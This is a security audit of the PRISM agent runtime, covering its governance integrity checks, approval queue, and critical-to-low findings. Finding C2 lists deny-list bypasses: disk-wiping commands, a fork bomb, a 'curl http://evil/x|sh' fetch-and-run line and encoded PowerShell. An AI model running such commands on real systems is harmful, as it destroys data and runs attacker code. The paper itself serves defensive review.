

# PRISM — A Critical Engineering & Security Audit

## A White Paper on the Architecture, Novelty, and Production Readiness of a Governance-Native Agents-as-a-Service Runtime

---

**Prepared for:** Kirk LaSalle, Author & Principal Architect, PRISM
**Subject system:** PRISM `prism-core` v0.22.4 — production clone under test
**Audit type:** Deep, adversarial, source-grounded engineering and security review
**Method:** Static source analysis (~99.9k LOC TypeScript, 338 source files, 210 test files, 149 docs), architecture reconstruction, claim-by-claim verification, and mapping to external standards (OWASP, NIST, EU AI Act) with web-verified citations
**Date:** 13 July 2026
**Classification:** Internal — candid. Written to be useful, not flattering.

---

## Abstract

PRISM presents itself as *"the first open-source agent platform with cryptographically enforced governance, tri-model cognitive orchestration, and full computer-use autonomy."* This audit tests that thesis against the source of record. The conclusion, stated plainly at the outset: **PRISM is a genuinely substantial, above-average piece of engineering whose governance and resilience machinery is real and working in the paths that matter most — and whose marketing simultaneously overstates the cryptographic strength of that governance, understates its own test coverage, and papers over a small number of exploitable security defects and one large maintainability liability.**

The system is not a chatbot wrapper, and it is not vaporware. It is roughly 100,000 lines of disciplined TypeScript with a real policy engine, a real approval-gated execution path, a real per-boot and periodic integrity check, a real optional-dependency degradation layer, and a substantive (if under-instrumented) test suite. It is also a system with an 11,276-line "God object," an unauthenticated secret-write endpoint, a remote-code-execution surface guarded by a bypassable regular expression, and a "cryptographically enforced" governance narrative that, on inspection, reduces to a git-plus-code-review trust model.

This paper documents both halves honestly, contextualizes PRISM's headline innovations against the current state of the art (Mixture-of-Agents ensembling, agentic security frameworks, and emerging AI governance regulation), and closes with a prioritized, concrete remediation roadmap. The intent is to strengthen the project, not to diminish it.

---

## Table of Contents

### Part I — Critical Audit

- [1 · Scope, Method, and Evidentiary Standard](#1-scope-method-and-evidentiary-standard)
- [2 · System at a Glance: What PRISM Actually Is](#2-system-at-a-glance-what-prism-actually-is)
- [3 · The Engineering, Examined](#3-the-engineering-examined)
  - [3.1 · Spectrum Refraction — Novelty vs. Reality](#31-spectrum-refraction--novelty-vs-reality)
  - [3.2 · The Governance Plane — Enforcement vs. Theater](#32-the-governance-plane--enforcement-vs-theater)
  - [3.3 · The Policy Engine & Approval Queue](#33-the-policy-engine--approval-queue)
  - [3.4 · Computer Use, Skills, and the Optional-Dependency Layer](#34-computer-use-skills-and-the-optional-dependency-layer)
- [4 · Novel & State-of-the-Art Elements — An Honest Ledger](#4-novel--state-of-the-art-elements--an-honest-ledger)
- [5 · The Critical Security Audit](#5-the-critical-security-audit)
- [6 · Architecture & Code-Quality Audit](#6-architecture--code-quality-audit)
- [7 · Governance, Compliance, and the Regulatory Horizon](#7-governance-compliance-and-the-regulatory-horizon)
- [8 · Consolidated Risk Register](#8-consolidated-risk-register)
- [9 · Remediation Roadmap](#9-remediation-roadmap)
- [10 · Verdict](#10-verdict)
- [11 · References](#11-references)
- [Appendix A · Claim-by-Claim Verification Matrix](#appendix-a--claim-by-claim-verification-matrix)

### Part II — Due-Diligence Review, Evaluation & Forward Roadmap

- [12 · Due-Diligence Evaluation of the Audit Itself](#12-due-diligence-evaluation-of-the-audit-itself)
- [13 · Due-Diligence Considerations (by stakeholder lens)](#13-due-diligence-considerations-by-stakeholder-lens)
- [14 · Enhancements & Suggestions — with Resolutions](#14-enhancements--suggestions--with-resolutions)
- [15 · Roadmap Forward v2 — Phased, Gated, Measurable](#15-roadmap-forward-v2--phased-gated-measurable)
- [16 · Success Metrics & Definition of Done](#16-success-metrics--definition-of-done)
- [17 · References (Addendum)](#17-references-addendum)
- [Appendix B · Due-Diligence Coverage Matrix](#appendix-b--due-diligence-coverage-matrix)
- [Appendix C · Release-Gate Checklist](#appendix-c--release-gate-checklist-proposed-ci-enforcement)

---

## 1. Scope, Method, and Evidentiary Standard

This is an adversarial audit. Its governing rule is simple: **the source code is the only witness that counts.** Every claim in this document is either backed by a file-and-line citation into the PRISM tree or by a citation to an external authority. Where the README and the code disagree, the code wins and the discrepancy is recorded as a finding.

The audit covered:

- **Headline features** — Spectrum Refraction, the Permanent Active Directives (PAD) integrity system, the 3-tier policy engine, the approval queue, the Guardian Agent, LLRE, and the computer-use adapters.
- **Security posture** — authentication, rate limiting, CORS/CSRF, secret storage, command-execution surfaces, SSRF exposure, and secret hygiene — mapped to the OWASP Top 10 and the OWASP Top 10 for LLM Applications 2025.
- **Architecture & quality** — module coupling, the routing layer, the frontend, type safety, and test infrastructure.
- **Governance & compliance** — alignment (and gaps) against the NIST AI Risk Management Framework and the EU AI Act's high-risk provider obligations.

Measurements were taken directly from the working tree. Where the report says "11,276 lines" or "430 `any` sites," those are counted, not estimated.

A note on tone, because the author asked for a *hardcore* audit and deserves one: the sharpest criticisms in this document are a form of respect. A project that aspires to be *"the world's most trusted autonomous agent platform"* ([AGENTIC_PRIME_DIRECTIVE.md](../AGENTIC_PRIME_DIRECTIVE.md)) must be able to survive its own security review. This is that review.

---

## 2. System at a Glance: What PRISM Actually Is

Stripped of framing, PRISM is a **self-hostable, single-process Node.js runtime** that fronts one or more LLM providers with a governance layer, a tool/skill execution engine, a multi-agent subsystem, and a large vanilla-JavaScript operator dashboard served over raw HTTP + WebSockets.

| Dimension | Measured Reality |
| :-- | :-- |
| Source size | ~99,900 lines TypeScript across **338** `.ts/.tsx` files |
| Tests | **210** test files (**196** `*.test.ts`), ~**1,740** `it()`/`test()` cases, ~5,756 assertions |
| Docs | **149** markdown files under `docs/` (231 repo-wide) |
| Frontend | **32** public `.js` files, ~25,000 lines, no framework |
| Largest unit | [dashboard-service.ts](../src/core/operator/dashboard-service.ts) — 552 KB / **11,276 lines** / 195 methods |
| Type discipline | `strict: true`, **0** `@ts-ignore`; but 430 `any`-typed escape hatches + `skipLibCheck` |
| Providers | 7 first-class + a "custom OpenAI-compatible" adapter |
| Runtime deps | Deliberately lean core; heavy capabilities (`node-pty`, `dockerode`, `googleapis`, `@azure/msal-node`) are **optional** |

The single most important structural fact about PRISM is this dependency graph, which is broadly correct in intent:



The architecture is sound as a diagram. The audit's work is in the gap between the diagram and the 100,000 lines that implement it.

---

## 3. The Engineering, Examined

### 3.1 Spectrum Refraction — Novelty vs. Reality

**The claim.** *"PRISM's novel compounding parallel fan-out architecture simultaneously engages three model instances… No competing framework offers native multi-model simultaneous fan-out with structured aggregation and isolation enforcement."* ([README.md](../README.md))

**What the code actually does.** The real engine is `generateSR()` in [llm-provider-manager.ts](../src/core/operator/llm-provider-manager.ts#L1391) (≈ lines 1391–1620) — not the thin `sr-tool.ts` wrapper. The fan-out is genuinely parallel:

```ts
// llm-provider-manager.ts ~L1507–1535
const leftGen  = leftCbOpen  ? Promise.resolve(null) : withTimeout(this.generate(leftInput,  ...), leftTimeoutMs);
const rightGen = rightCbOpen ? Promise.resolve(null) : withTimeout(this.generate(rightInput, ...), rightTimeoutMs);
const mainGen  = withTimeout(this.generate(mainInput, mainSelection), 60_000);
const [leftResult, rightResult, mainResult] = await Promise.all([leftGen, rightGen, mainGen]);
```

The "mandatory instance isolation" claim **holds up**. `validateSRTriad` ([model-capability-matrix.ts](../src/core/operator/model-capability-matrix.ts#L3162)) rejects a triad where Left and Right share both provider and model, returning `isolationLevel: "insufficient"` with `valid: false`, and this gate is enforced at all three advertised layers:

1. **Configuration** — `/api/sr/configure` returns HTTP 400 on `!triad.valid` ([dashboard-service.ts](../src/core/operator/dashboard-service.ts#L6316)).
2. **Activation** — `/api/sr/activate` re-validates ([dashboard-service.ts](../src/core/operator/dashboard-service.ts#L6369)).
3. **Runtime** — a pre-flight `validateSRTriad` returns `null` and aborts if invalid ([llm-provider-manager.ts](../src/core/operator/llm-provider-manager.ts#L1407)).

Resilience is real too: per-hemisphere timeouts via `withTimeout`, a per-`role:provider` circuit breaker (3 failures / 30 s open), and graceful degradation where a failed hemisphere is replaced with an advisory placeholder while aggregation still completes.

**The honest critique.** Three points must be made.

- **The "novel cognitive orchestration" is, algorithmically, prior art.** Strip away the "Left/Right/Main hemisphere" language and Spectrum Refraction is *parallel-prompt-N-models-then-synthesize-with-an-aggregator-model*. This is precisely the **Mixture-of-Agents (MoA)** pattern formalized by Wang et al. in June 2024, which layers multiple LLM "proposers" and an "aggregator" and achieved 65.1% on AlpacaEval 2.0, surpassing GPT-4 Omni [1]. The "hemisphere" roles in PRISM are enforced *only* by three different system-prompt strings (`SR_SYSTEM_PROMPTS.left/right/aggregation`); swap those strings and it is a generic 3-agent ensemble. The genuinely differentiated engineering is **not** the ensemble — it is the *isolation-enforcement gates, the circuit breaker, the cost pre-estimation, and the audit-event trail* wrapped around it. That is real and worth claiming; "no competing framework offers this" is not.

- **The advertised N-model fan-out is non-functional at runtime.** `HemisphereSpec`, `normalizeSRConfig`, and `SR_MAX_HEMISPHERES = 8` exist, are documented as shipped, and are unit-tested ([tests/sr-n-model-fanout.test.ts](../tests/sr-n-model-fanout.test.ts)) — **but `generateSR` never consumes `hemispheres[]`.** It early-returns on the legacy fields: `if (!srConfig.enabled || !srConfig.leftModel || !srConfig.rightModel) return null;` ([llm-provider-manager.ts](../src/core/operator/llm-provider-manager.ts#L1404)). `normalizeSRConfig` is referenced only in tests and docs, never in the runtime path. The N-model capability is wired at validation and marked `[x]` done in [docs/TODO.md](../docs/TODO.md), but at the execution layer it is a stub. **This is doc/code drift on a headline feature.**

- **A "tri-model" run is four model calls.** The main model is invoked once as a fan-out proposer and again as the aggregator. `estimateSRCost` accounts for it, but the latency and token cost of the redundant primary invocation should be acknowledged, not hidden.

**Verdict:** The isolation and resilience plumbing is real, tested, and a legitimate contribution. The "novel tri-/N-model cognitive orchestration" headline overstates both the novelty (it is MoA-family ensembling) and the reality (N-model does not execute).

---

### 3.2 The Governance Plane — Enforcement vs. Theater

This is PRISM's signature claim and its most important one to get right: *"No other agent platform enforces governance at the cryptographic level."* ([README.md](../README.md))

**What is genuinely load-bearing.** The SHA-256 verification of the directive file is real. `verifyDirectiveIntegrity` ([directive-integrity.ts](../src/core/security/directive-integrity.ts#L109)) reads `Permanent_Active_Directives.txt`, hashes it, and compares against the embedded constant `DIRECTIVE_SHA256` ([directive-hash.generated.ts](../src/core/security/directive-hash.generated.ts)). Critically, this check is *wired into the LLM path*: every call through `llm-provider-manager.generate()` throws on mismatch ([llm-provider-manager.ts](../src/core/operator/llm-provider-manager.ts#L1024)). The Guardian Agent re-runs the check every 10 minutes ([guardian-agent.ts](../src/core/agents/guardian-agent.ts#L131)) and attempts self-heal from a backup. The 10 Laws are injected as a governance preamble into Tier-2+ system prompts ([model-capability-matrix.ts](../src/core/operator/model-capability-matrix.ts#L2447)). These are working controls.

**Where the claim breaks down — four material gaps:**

1. **"Cryptographically enforced" is, on inspection, a git + code-review trust model — not cryptography.** The expected hash constant lives in the *same repository* as the file it protects ([directive-hash.generated.ts](../src/core/security/directive-hash.generated.ts)). **There is no digital signature and no external key.** An operator with commit access edits `Permanent_Active_Directives.txt`, runs `npm run prebuild` (which recomputes and re-embeds the hash — [package.json](../package.json)), commits both, and every check passes. The CI "drift" gate only asserts *on-disk file == embedded constant*; it cannot detect a coordinated co-change. Real prevention therefore depends entirely on GitHub branch protection and human review — **discipline, not mathematics.** SHA-256 here provides *tamper-evidence against runtime file edits*, which is valuable, but it is categorically weaker than the "cryptographically sealed, immutable" language implies. To earn that language, the manifest must be **signed with an offline private key** (the repo already ships Ed25519 machinery in [config/plugin-signing-keys.json](../config/plugin-signing-keys.json) and [initialization-signature.ts](../src/core/security/initialization-signature.ts) — the primitive exists; it simply is not applied to the PAD).

2. **It is not a boot gate.** [src/index.ts](../src/index.ts) never calls `verifyDirectiveIntegrity`. A tampered PAD does **not** stop the process from starting. Only the LLM path and the Guardian loop react. The direct tool-execution path ([orchestrator.run](../src/core/runtime/orchestrator.ts#L114)) is **not** PAD-gated — so a tampered directive file blocks model calls but not direct tool dispatch. For a system whose PRIME DIRECTIVE demands *"Verify complete system integrity at boot,"* this is a conformance gap against its own charter.

3. **The Guardian's "self-heal" is partly a stub.** The PAD re-check is real; the generic `taskSelfHealCheck` returns a hardcoded `"Self-healing checks nominal. (Fallback)"` ([guardian-agent.ts](../src/core/agents/guardian-agent.ts#L955)). And although the Guardian loads a local `llama.cpp` slot, the *security* tasks (integrity, maintenance) are plain hash/JS checks — no inference is used. "Powered by llama.cpp" is architectural framing, not what runs the governance check.

4. **The manifest's `enforced: true` is optimistic.** [directive-manifest.ts](../src/core/security/directive-manifest.ts) marks all 10 Laws `enforced: true`, but Laws 5, 7, and 8 map only to *"System prompts"* — i.e., soft instructions to a probabilistic model, not hard controls. Tier-1 (weaker) models receive **no** governance preamble at all.

**Verdict:** The governance plane contains real, working, above-industry-norm controls (the approval gate and the LLM-path integrity check especially). But the flagship phrase *"cryptographically enforced"* does not survive contact with the code. The accurate, still-impressive claim is: *"tamper-evident governance with runtime integrity verification, approval-gated execution, and continuous re-attestation."* The recommended fix — Ed25519-signing the directive manifest with an offline key and adding a fail-closed boot gate — would make the original claim **true**, and it is achievable with machinery already in the tree.

---

### 3.3 The Policy Engine & Approval Queue

This subsystem is the audit's most pleasant surprise and deserves credit. The approval queue is a genuine, correctly-implemented control:

- `request()` returns a Promise settled by `approve()`/`deny()` or resolved `false` by a timeout ([approval-queue.ts](../src/core/approval/approval-queue.ts#L20)).
- The **enforcement point is correct**: in [orchestrator.run()](../src/core/runtime/orchestrator.ts#L114), a `deny` decision returns an error with no execution; a `require_approval` decision `await`s the queue and returns *"Operation denied or timed out"* if not approved; and `tool.execute()` is reached **only after** those gates pass ([L227](../src/core/runtime/orchestrator.ts#L227)). If approval is required but no queue is wired, it **fails closed**. This is textbook secure-by-default design.

The nuance — and it is a real limitation — is that **the policy engine does not classify risk; it consumes a caller-supplied `risk` value** ([types.ts](../src/core/policy/types.ts#L24)). Classification happens elsewhere: a per-call normalizer that only *raises* risk to a tool's declared `minimumRisk` ([governance-normalizer.ts](../src/core/tools/governance-normalizer.ts#L54)), hardcoded per-tool schemas on the dangerous adapters, and a ~20-word keyword scorer ([tool-contract-extractor.ts](../src/core/tools/tool-contract-extractor.ts#L731)) that actually serves *contract-diffing*, not live gating. The consequence is a direct security finding (see **H3**, §5): any code path that supplies `risk: "low"` bypasses the entire tier ladder — and one HTTP endpoint does exactly that.

**Verdict:** The gate mechanism is real and well-built. The *risk-assignment* feeding it is a trust-the-caller model with a hardcoded escalation table — adequate for the curated built-in tools, fragile for anything that calls the engine with attacker-influenced risk.

---

### 3.4 Computer Use, Skills, and the Optional-Dependency Layer

The optional-dependency subsystem ([optional-deps.ts](../src/core/system/optional-deps.ts)) is, in the auditor's assessment, **the single best-engineered component in the codebase.** It is a centralized dynamic-`import()` probe with per-module 8-second timeouts and a three-state (`available` / `missing` / `error`) result surfaced on `/api/health`. Adapters gate on `isAvailable()` and degrade gracefully — the terminal adapter falls back from `node-pty` to `child_process`, and absent optional dependencies **do not crash the app**. For a self-hostable system expected to run on heterogeneous consumer hardware, this is exactly right.

The computer-use adapters (browser via Playwright, terminal via node-pty, container via dockerode) are real and non-trivial. Their **weakness is not existence but containment** — the shell/exec surfaces are protected by blocklist regexes rather than allowlists, and those regexes are trivially bypassable (see **C2/M3**, §5). "Full computer-use autonomy" is delivered; "governed" is delivered unevenly.

---

## 4. Novel & State-of-the-Art Elements — An Honest Ledger

The audit distinguishes three tiers of contribution. Overclaiming in tier 3 as tier 1 is the project's recurring rhetorical failure mode; the underlying work is strong enough not to need it.

| Element | Assessment | Grounding |
| :-- | :-- | :-- |
| **Approval-gated tool execution, fail-closed** | **Genuinely strong.** Correctly enforced before execution. Aligns with OWASP LLM06 (Excessive Agency) mitigations and NIST-RMF *Manage*. | [orchestrator.ts](../src/core/runtime/orchestrator.ts#L114) |
| **Runtime directive integrity re-attestation** | **Novel in packaging, real in effect.** Continuous SHA-256 re-verification of a governance artifact is uncommon in OSS agent frameworks. | [directive-integrity.ts](../src/core/security/directive-integrity.ts) |
| **Optional-dependency graceful degradation** | **Best-in-class craftsmanship.** | [optional-deps.ts](../src/core/system/optional-deps.ts) |
| **SR isolation-enforcement gates** | **Real value-add** around a known pattern. | [model-capability-matrix.ts](../src/core/operator/model-capability-matrix.ts#L3162) |
| **LLRE cognitive-economics telemetry (TEQ/RSI/CSR/TCA)** | **Interesting instrumentation, not SOTA.** Useful operator visibility; the metrics are bespoke heuristics, not validated measures. | [src/core/llre/](../src/core/llre/) |
| **Spectrum Refraction "tri-model orchestration"** | **Prior art (Mixture-of-Agents).** Competent implementation; overstated novelty; N-model path non-functional. | [1]; [llm-provider-manager.ts](../src/core/operator/llm-provider-manager.ts#L1391) |
| **"Cryptographically enforced 10 Laws"** | **Overstated.** Tamper-evidence + code review, not cryptographic enforcement (no signature/key on the PAD). | [directive-hash.generated.ts](../src/core/security/directive-hash.generated.ts) |
| **"CAC / character accountability chains"** | **Real audit-trail feature**, valuable for compliance provenance; not cryptographically immutable. | [security-architecture-analysis]; `src/core/accountability/` |

**The intellectually honest positioning** for PRISM is not *"we invented multi-model cognition."* It is: *"we are one of the few open, self-hostable agent runtimes that treats governance, approval, and auditability as first-class, load-bearing subsystems rather than prompt-level guardrails."* That claim is **true, defensible, and differentiated** — and it maps cleanly onto the emerging regulatory expectations discussed in §7.

---

## 5. The Critical Security Audit

Findings are ranked by exploitability and impact and mapped to the OWASP Top 10:2021 and OWASP Top 10 for LLM Applications 2025 [2]. This section is deliberately blunt.

### 🔴 Critical

**C1 — Unauthenticated secret-write endpoint (OWASP A01: Broken Access Control).**
`AuthGate` bypasses authentication for any route in its `publicRoutes`/`publicPrefixes` allowlist ([auth.ts](../src/core/security/auth.ts#L71)). The wiring ([dashboard-service.ts](../src/core/operator/dashboard-service.ts#L1166)) permanently whitelists state-changing endpoints that are **never re-gated after `setupComplete`**, including `/api/llm/provider-secret` ([llm-handler.ts](../src/core/operator/routes/llm-handler.ts#L80)) and `/api/llm/provider-test`. **A single unauthenticated `POST` from anywhere the port is reachable can overwrite the operator's stored provider API keys** and trigger outbound requests (a key-validity oracle and an SSRF trigger). These routes are labeled "setup wizard step N" in comments, but a fully-provisioned production node still serves them open.
*Remediation:* gate wizard routes behind `setupComplete === false`, or drive setup with a short-lived bootstrap token. A permanent allowlist must never contain a secret-write endpoint.

**C2 — Remote code execution via `/api/computer/exec` with a bypassable deny list (OWASP A03: Injection, OWASP LLM06: Excessive Agency).**
Defined in [dashboard-service.ts](../src/core/operator/dashboard-service.ts#L7537) and [computer-handler.ts](../src/core/operator/routes/computer-handler.ts#L429), both run `child_process.exec(cmd)` (full shell interpretation) after a single regex: `/rm\s+-rf|del\s+\/[sfq]|format\s+[a-z]:|shutdown|restart|reboot/i`. Trivial bypasses defeat it in seconds — `rm -r -f /`, `rm --recursive --force /`, `dd if=/dev/zero of=/dev/sda`, `mkfs.ext4 /dev/sda`, `:(){ :|:& };:`, `curl http://evil/x|sh`, `powershell -enc <base64>`. This is effectively **full RCE**, and its only real control is the single admin bearer token — whose surface is widened by **M1** and **M2** below.
*Remediation:* route through the PolicyEngine with explicit approval; use `execFile` with an argument allowlist; abandon deny-list-as-security.

### 🟠 High

**H1 — Live Google OAuth client secret on disk.** [client_secret_…json](../client_secret_1002774964370-p4t82v7dfvap6v5s40rv8ot18i4e9iae.apps.googleusercontent.com.json) contains a real secret (`GOCSPX-…`). It is correctly `.gitignore`d and *untracked* — so there is no committed-secret breach — but a live credential sitting in plaintext in the repo root is one `git add -f` or one careless zip away from disclosure. *Remediation:* **revoke and rotate this client secret now** (treat as compromised); load OAuth secrets from an env var / secret store outside the tree.

**H2 — "OS keychain" secret storage is false on macOS/Linux (OWASP A02: Cryptographic Failures).** The factory selects `WindowsProtectedFileProviderSecretStore` on Windows and `InMemoryProviderSecretStore` — a plaintext `Map` — everywhere else ([dashboard-service.ts](../src/core/operator/dashboard-service.ts#L1116)). There is **no** macOS Keychain / libsecret implementation. On every Docker/Linux deployment, provider keys live unencrypted in process heap, are lost on restart, and appear in any core/heap dump. The README's *"Windows DPAPI / OS keychain — never persisted in SQLite"* is materially inaccurate off-Windows. *Remediation:* implement `security` (macOS) / `libsecret` (Linux) backends or an encrypted-at-rest store; correct the README until then.

**H3 — `/api/agentic/action` executes any tool while forcing `risk: "low"` (Insecure Design).** [dashboard-service.ts](../src/core/operator/dashboard-service.ts#L7561) resolves any tool by name and executes it with hardcoded `{ risk: "low", mutatesState: false }`, letting a caller invoke high-risk tools (shell, HTTP, filesystem) while mislabeling them and **defeating the policy engine's tier gating entirely.** *Remediation:* derive `risk`/`mutatesState` from the tool's own governance contract, never from caller-supplied constants.

**H4 — SSRF via `http_request` and provider `baseUrl` (OWASP A10: SSRF, OWASP LLM06).** [http-tool.ts](../src/adapters/protocol/http-tool.ts#L25) fetches any user-supplied URL with no allowlist and no block for `127.0.0.1`, `169.254.169.254` (cloud metadata), or RFC-1918 ranges — reachable via the agent and via H3. *Remediation:* resolve DNS and block loopback/link-local/private ranges pre-connect; enforce an egress allowlist; forbid redirects to internal targets.

### 🟡 Medium

- **M1 — Rate-limit loopback + `X-Forwarded-For` bypass, plus unbounded memory maps (DoS).** Loopback skips the global cap and `X-Forwarded-For` is trusted whenever the socket is loopback ([rate-limiter.ts](../src/core/security/rate-limiter.ts#L143)). Behind the documented localhost reverse-proxy deployment, an attacker rotates the header to mint a fresh per-IP bucket per request — evading brute-force caps and growing the unbounded `Map`s. *Fix:* trust `X-Forwarded-For` only from a configured proxy list; cap distinct keys.
- **M2 — Bearer token accepted in query string; long-lived, manual rotation only** ([auth.ts](../src/core/security/auth.ts#L85)). Tokens in URLs leak via logs, proxies, history, `Referer`. *Fix:* short-lived signed tickets for browser transports; auto-rotation.
- **M3 — Three duplicated, bypassable command deny lists** ([shell-tool.ts](../src/adapters/system/shell-tool.ts#L15), [terminal-session-tool.ts](../src/adapters/system/terminal-session-tool.ts#L51), [computer-handler.ts](../src/core/operator/routes/computer-handler.ts#L433)) — missing `dd of=/dev/sda`, `wipefs`, `shred`, `curl|sh`, encoded PowerShell. *Fix:* one central policy module; allowlist over blocklist.
- **M4 — Broad CSRF exemption** for the entire `/api/auth/` prefix, and state-changing requests with no `Origin`/`Referer` are allowed ([cors-csrf.ts](../src/core/security/cors-csrf.ts#L60)). *Fix:* scope the exemption to the single bootstrap route.
- **M5 — Windows secret path leaks plaintext via PowerShell command-line args** and uses `-ExecutionPolicy Bypass` ([provider-secret-store.ts](../src/core/operator/provider-secret-store.ts#L88)). *Fix:* pass secrets via stdin; drop `Bypass`.

### 🟢 Low

- **L1 — Hardcoded developer absolute path** `D:\Projects\Prism\...public` in static serving ([dashboard-service.ts](../src/core/operator/dashboard-service.ts#L4319)) — info leak / fragility.
- **L2 — SQL identifier interpolation** in a migration helper ([chat-session-store.ts](../src/core/operator/chat-session-store.ts#L401)) — latent injection if ever fed input.
- **L3 — Dependency posture** — `"@types/node-pty": "npm:null@*"` is a supply-chain smell; pin native deps; wire `npm audit` into CI (OWASP LLM03: Supply Chain).
- **L4 — No `Content-Security-Policy` and no `Strict-Transport-Security`** ([dashboard-service.ts](../src/core/operator/dashboard-service.ts#L4256)); CSP is the missing XSS defense-in-depth for a dashboard that renders user-influenced data.

### Security positives worth recording

`timingSafeEqual` with a length pre-check is used correctly ([auth.ts](../src/core/security/auth.ts#L157)); the admin token file is written `0o600`; CORS rejects `*` and does not reflect arbitrary origins; static serving has a real path-containment check; and the `PRISM_AUTH_DISABLED` production guard **throws** under `NODE_ENV=production` in two places. The security *fundamentals* are competent — which is exactly why the C1/C2/H-tier gaps are worth fixing rather than despairing over.

---

## 6. Architecture & Code-Quality Audit

**Strengths (credited).** A real modular `Router` with 33 handlers ([routes/index.ts](../src/core/operator/routes/index.ts)); the excellent optional-dependency layer; a disciplined security-middleware pipeline applied before routing; substantive behavioral tests (e.g., [policy-engine.test.ts](../tests/policy-engine.test.ts), [owasp-scan.test.ts](../tests/owasp-scan.test.ts)); and `strict: true` with zero `@ts-ignore`. This is not a prototype.

**The debts, prioritized:**

- **P0 — The `dashboard-service.ts` God object.** 11,276 lines, one class, 195 methods, 126 injected fields, 94 imports. Worse, the routing refactor was *started but abandoned*: the class still dispatches ~274 inline `if (method === …)` branches **alongside** the modular Router, so a maintainer must reason about two routing mechanisms at once. And 55 handler signatures take `service: DashboardService`, so the "modular" handlers reach back into the monolith — extraction moved code but not coupling. *Fix:* finish the extraction; replace `service: DashboardService` with a narrow `IDashboardContext` interface; target a <1,500-line shell.

- **P1 — No coverage measurement + a hand-enumerated test runner.** No `c8`/`nyc`/`istanbul` in [package.json](../package.json). The `npm test` script hand-lists ~65 of the 196 test files as a mega-string command; new tests must be manually threaded in and will silently rot. There is *zero* visibility into what the ~1,740 cases actually exercise. *Fix:* add `c8` with a coverage floor; switch to glob-based discovery.

- **P1 — The README test claim is drifted.** "185+ tests passing" maps to test *files*, not *cases* (there are ~1,740 cases). It *undersells* real coverage ~9×, but the imprecision is the same class of doc/code drift as the SR N-model claim — and it quietly erodes trust in every other number in the README. *Fix:* generate the count from the runner.

- **P1 — 430 `any` escape hatches undermine `strict`.** 214 `: any` + 216 `as any` + `skipLibCheck`. Concentrated at dynamic-import seams (understandable) but far beyond what boundary code justifies. *Fix:* `@typescript-eslint/no-explicit-any` as a warning; type the optional-dep shapes once at the seam.

- **P2 — Frontend.** 25,000 lines of framework-less JS, single files at 190 KB, 180 inline `onclick="window…"` handlers in template strings (XSS-adjacent, untestable) and 113 `window.*` global attachments. Not a rewrite candidate, but split the mega-tabs, replace inline handlers with delegated `addEventListener`, and namespace the globals.

- **P2 — Layering leaks.** Intended direction `adapters → core → operator` is violated bidirectionally: 40 `core → adapters` reverse imports and 14 `core → operator` upward imports. *Fix:* port interfaces in `core`, DI to invert, and an `import/no-restricted-paths` ESLint rule to fail CI on violations.

- **P0/hygiene — Repo-root clutter.** The working tree carries the live OAuth secret (H1), `prism-kg-diag-sqt-test.db.sq*`, `scratch_login.ts`, `test_out.txt`, `test_output*.txt`. All gitignored/untracked, but they signal hygiene drift and are a disclosure hazard. *Fix:* move secrets outside VCS; delete scratch artifacts.

**Scorecard:**

| Area | Verdict |
| :-- | :-- |
| Optional-dep resilience | **Strong** |
| Security pipeline (fundamentals) | **Strong** |
| Test substance | **Good** |
| Test infrastructure | **Weak** (no coverage, manual runner) |
| Type safety | **Mixed** (strict on, 430 `any`) |
| `dashboard-service.ts` | **Critical debt** |
| Frontend | **Weak** (25k LOC vanilla, global handlers) |
| Layering | **Weak** (bidirectional leaks) |
| Repo hygiene | **Fair** (secrets present-at-rest) |
| Docs | **Bloated** (231 files, live drift) |

---

## 7. Governance, Compliance, and the Regulatory Horizon

PRISM's thesis — governance as load-bearing architecture — is *strategically well-timed*, and this is where the project's real, defensible differentiation lives. It maps unusually well onto the three frameworks that will define trustworthy-AI expectations:

- **NIST AI Risk Management Framework (AI RMF 1.0)** [3] organizes trustworthy AI around **Govern, Map, Measure, Manage**. PRISM's approval queue and policy engine are concrete *Manage* controls; the activity bus with SHA-256 hashing and the CAC accountability chains are *Govern*/*Measure* instruments; the LLRE telemetry is a *Measure* effort. Few open-source agent runtimes can point to *any* of these as first-class subsystems. This alignment is a genuine market and compliance asset — and it should be documented as such, with a formal AI-RMF crosswalk.

- **EU AI Act** [4] obligations for high-risk providers (Arts. 8–17) demand a **risk-management system across the lifecycle, record-keeping/automatic logging, human oversight, and appropriate accuracy/robustness/cybersecurity.** PRISM already implements primitives for most of these (approval gating = human oversight; activity store = logging; policy engine = risk management). The **cybersecurity** obligation is precisely where the §5 findings (C1/C2/H2) would fail a conformity assessment today — which reframes those findings not merely as bugs but as *compliance blockers* for the enterprise buyers PRISM courts.

- **OWASP Top 10 for LLM Applications 2025** [2] is the sharpest lens. PRISM's design directly targets **LLM06 Excessive Agency** (approval gates, tiered risk) and **LLM01 Prompt Injection** (governance preamble) — but the same list indicts the current gaps: the exec surface and forced-low-risk endpoint *are* Excessive Agency failures; the unbounded rate-limit maps are **LLM10 Unbounded Consumption**; the plaintext key store is **LLM02 Sensitive Information Disclosure**; and the `npm:null` dependency is **LLM03 Supply Chain**. PRISM is, usefully, both a good example of LLM06 *mitigation design* and a live example of several LLM Top-10 *pitfalls* — a rare teaching artifact.

